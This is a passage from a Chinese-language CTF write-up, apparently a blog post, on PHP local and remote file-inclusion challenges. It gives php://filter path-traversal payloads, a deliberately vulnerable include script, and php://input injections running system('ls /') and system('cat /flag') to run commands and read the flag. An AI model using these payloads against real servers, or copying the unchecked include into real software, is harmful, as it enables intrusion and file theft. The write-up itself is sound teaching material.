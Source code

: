 发现没什么反应说明不在根目录下 于是我们可以一级一级的去寻找

```python
?file=php://filter/resource=/../flag
?file=php://filter/resource=/../../flag
?file=php://filter/resource=/../../../flag
```

在最后一个payload时出现了flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736920687352-ff7fb063-3a5b-4e57-a386-a89a3185f297.png)

### 远程包含
打开靶机后还是一段php代码

```python
 <?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag?<br>
<a href="phpinfo.php">phpinfo</a> i don't have shell, how to get flag?
phpinfo
```

通过代码审计上传参数file中不能出现flag 并且我们也不知道flag位于哪个文件 所以我们可以尝试使用php://input伪协议上传命令 还是利用burp

```python
<?php eval(system('ls /'));?>
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736921475449-b2dfb3f8-ece1-4ec0-b4d5-0a3dc4b3bf4e.png)

查看响应包发现flag文件

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736921509517-9ea3532a-5324-4122-ba72-da91b6e55406.png)

接着利用cat命令读取flag

```python
<?php eval(system('cat /flag'));?>
```

查看响应包得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736921623245-fd3fa3b0-5b2f-4c41-b959-1d4cc733b3cc.png)
